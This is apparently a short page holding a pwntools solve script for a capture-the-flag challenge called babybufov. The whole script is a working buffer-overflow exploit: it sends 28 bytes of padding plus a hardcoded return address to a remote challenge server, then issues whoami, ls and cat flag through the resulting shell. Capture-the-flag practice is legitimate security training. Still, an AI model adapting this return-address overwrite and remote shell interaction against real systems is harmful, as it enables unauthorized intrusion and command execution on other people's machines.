

# babybufov_solve.py

```
from pwn import *

# Update this to the actual address found
target_address = b"\xf5\x91\x04\x08"  # for the provided binary

# Construct payload
payload = b"A" * 28  # Increase buffer size
payload += target_address  # Overwrite return address

# Connect to the challenge
p = remote('challenge.ctf.games', 30921)

# Wait for the prompt
p.recvuntil(b"Gimme some data!")

# Send the payload
print("Sending payload:", payload)
p.sendline(payload)

# Wait for "Jackpot!" to confirm the shell is open
p.recvuntil(b"Jackpot!")

# Now you can send your commands
p.sendline(b"whoami")  # Send a command, like whoami
p.sendline(b"ls")
p.sendline(b"cat flag")

# Receive and print the output until we get a prompt again or timeout
try:
    while True:
        response = p.recv(timeout=2)  # Wait for data for 2 seconds
        if not response:
            break
        print(response.decode(), end='')  # Print without adding extra newlines
except EOFError:
    pass
finally:
    p.close()  # Close the connection

print("\nConnection closed.")
```
